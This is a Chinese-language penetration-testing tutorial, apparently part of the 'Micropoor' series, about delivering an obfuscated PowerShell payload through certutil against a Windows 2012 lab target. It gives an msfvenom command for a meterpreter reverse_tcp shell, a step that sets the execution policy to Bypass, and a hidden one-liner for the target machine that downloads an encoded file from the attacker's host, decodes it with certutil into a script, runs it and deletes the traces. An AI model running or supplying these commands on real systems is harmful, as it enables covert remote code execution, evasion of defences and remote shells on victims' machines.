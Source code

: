 第八季中提到了 certutil 的加密与解密。  

```bash
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
而配合 powershell 的内存加载，则可把 certutil 发挥更强大。

**靶机：windows 2012**

而今天需要的是一款 powershell 的混淆框架的配合  
https://github.com/danielbohannon/Invoke-CradleCrafter

使用方法：
```bash
Import-Module ./Invoke-CradleCrafter.psd1 Invoke-CradleCrafter
```  
![](media/c62807cec766f0f6c92c2d821cd6ede3.jpg)

![](media/5fd8400f05ad1fe156649bb7d4ab2726.jpg)

如果在加载 powershell 脚本的时候提示：**powershell
进行数字签运行该脚本。**
则先执行：
```bash
set-executionpolicy Bypass
```

生成payload：（有关生成payload，会在未来的系列中讲到）

```bash
root@John:/tmp# msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐e cmd/powershell_base64 ‐f psh ‐o Micropoor.txt
```

![](media/316a532d526b20050d34d02f8f06e952.jpg)

![](media/cfa22fb95c6b008829035e91928f47db.jpg)

**启动apache：**  
![](media/d34911ee8f5ed23aaef4fe39846d7c4d.jpg)

**powershell框架设置：**

SET URL http://192.168.1.5/Micropoor.txt  
![](media/bc3142653214ae8fd411b32efcdb77a8.jpg)

**MEMORY**  
![](media/62d726b8feae58ada003965ac15cfe4a.jpg)

**CERTUTIL**  
![](media/b700f3bfebafc44073df52b62d79d73c.jpg)

**ALL**  
![](media/9b29ae29a5bf7fd27b9ded5b889844c4.jpg)

**1**  
![](media/f14a65e3707c230527b14312400969e0.jpg)

**混淆内容保存txt，后进行encode**  
![](media/17b242fcc60d1fa5eb54d8f2c6268331.jpg)

把 cer.cer 与 Micropoo.txt 放置同一目录下。  

**目标机执行：**  
```bash
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\\cer.cer (New‐Object Net.WebClient).DownloadString('http://192.168.1.5/cer.cer'); certutil ‐decode %APPDATA%\cer.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cer.cer
```

>   Micropoor
